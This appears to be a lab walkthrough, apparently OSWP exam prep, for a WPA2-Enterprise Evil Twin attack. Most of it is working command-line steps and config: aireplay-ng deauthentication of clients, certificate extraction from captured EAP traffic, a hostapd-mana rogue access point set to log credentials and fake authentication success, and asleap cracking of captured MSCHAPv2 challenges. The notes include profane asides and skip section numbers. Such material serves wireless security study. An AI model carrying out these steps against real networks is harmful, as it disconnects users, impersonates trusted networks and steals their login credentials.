 
# 🛡️ WPA2-Enterprise / Evil Twin Attack Flow 

## 📍 Goal
Simulate a WPA2-Enterprise Evil Twin attack in a SSH-only lab, using only CLI tools. The objective is to:
- Capture the authentication handshake
- Analyze EAP communications
- Extract useful information (CA, server certs)
- Replay the attack using hostapd-mana
- Connect with wpa_supplicant for testing

---

## 1. 📡 Monitor Interface Setup plus Discover plus DEAUT. 

> 🎯 *To catch the handshake we DEAUTH the fucking client connected to the fucking AP*
```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon --band abg
sudo airodump-ng wlan0mon --band abg -c 44 -w wifi-corp
sudo aireplay-ng -0 1 -a <MAC-AP> -c <MAC-CLIENT> wlan0mon
sudo airmon-ng stop wlan0mon
```
---

## 2. 🎯 Capturing and Analyze EAP handshake

> 📦 *We use `tshark` to capture packets and save them to a PCAP file

```bash
tshark -r wifi-corp-01.cap -Y "ssl.handshake.certificate and eapol" -T fields -e "tls.handshake.certificate" |sed "s/://g" | xxd -ps -r | tee $(mktemp $tmpbase.cert.XXXX.der) | openssl x509 -inform der -text
```
or if you have time and you want, go slow:

```bash
tshark -i wlan0 -w enterprise.pcap -Y "eap || eapol"
tshark -r enterprise.pcap -Y "eap" -T fields -e frame.number -e eap.code -e eap.type -e eap.identity
tshark -r enterprise.pcap -Y "tls.handshake.certificate" -V | less
```
---

## 5. 🧪 Change CA and server files with the info you gained
> 🧬 *Extract the server's certificate from the PCAP, convert it, and analyze its contents.*

Then use:
```bash
make destroycerts
make
```
---

## 6. 🏴‍☠️ Set up hostapd-mana (Evil Twin)

> 🎣 *We use hostapd-mana to spawn a rogue AP that mimics the original WPA2-Enterprise network, using the previously extracted certs or fake ones signed with same CA.*

Minimal config example `mana.conf`:
```
# SSID of the AP
ssid=wifi-corp

# Network interface to use and driver type
# We must ensure the interface lists 'AP' in 'Supported interface modes' when running 'iw phy PHYX info'
interface=wlan0
driver=nl80211

# Channel and mode
# Make sure the channel is allowed with 'iw phy PHYX info' ('Frequencies' field - there can be more than one)
channel=1
# Refer to https://w1.fi/cgit/hostap/plain/hostapd/hostapd.conf to set up 802.11n/ac/ax
hw_mode=g

# Setting up hostapd as an EAP server
ieee8021x=1
eap_server=1

# Key workaround for Win XP
eapol_key_index_workaround=0

# EAP user file we created earlier
eap_user_file=/etc/hostapd-mana/mana.eap_user

# Certificate paths created earlier
ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradius/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key
# The password is actually 'whatever'
private_key_passwd=whatever
dh_file=/etc/freeradius/3.0/certs/dh

# Open authentication
auth_algs=1
# WPA/WPA2
wpa=2
# WPA Enterprise
wpa_key_mgmt=WPA-EAP
# Allow CCMP and TKIP
# Note: iOS warns when network has TKIP (or WEP)
wpa_pairwise=CCMP TKIP

# Enable Mana WPE
mana_wpe=1

# Store credentials in that file
mana_credout=/tmp/hostapd.credout

# Send EAP success, so the client thinks it's connected
mana_eapsuccess=1

# EAP TLS MitM
mana_eaptls=1

```

Minimal config example `mana.eap_user`:
```bash
*     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```

FINALLY:
```bash
sudo hostapd-mana mana.conf
```

From here you should get the password 

```bash
asleap -C d4:b9:92:06:0e:57:9a:0d -R 59:b8:e1:db:c7:a8:8e:bc:f7:21:28:52:92:f0:21:2b:88:0f:df:c4:fb:ef:fe:6f -W /usr/share/john/password.lst
```

---

## 7. 🤖 wpa_supplicant (Client Side)
Sample config `client.conf`:

```
network={  
  ssid="wifi-corp"  
  scan_ssid=1  
  key_mgmt=WPA-EAP  
  identity="CONTOSO\juan.tr"  
  password="PASSWORD"  
  eap=PEAP  
  phase1="peaplabel=0"  
  phase2="auth=MSCHAPV2"  
}
```

Run:
```bash
wpa_supplicant -i wlan0 -c wpa_supplicant.conf
dhclient -v wlan0
```

> 📶 *This simulates a client attempting to connect to our rogue AP. We monitor and capture credentials in `/tmp/hostapd.credout` or via stdout.*

---

## ✅ Wrap-up
You’ve:
- Captured and dissected a WPA2-Enterprise handshake
- Extracted certs from TLS handshake
- Replicated the network and tricked clients
- Logged EAP credentials via hostapd-mana

This flow is 100% CLI-compatible and tailored for OSWP-style environments without GUI.

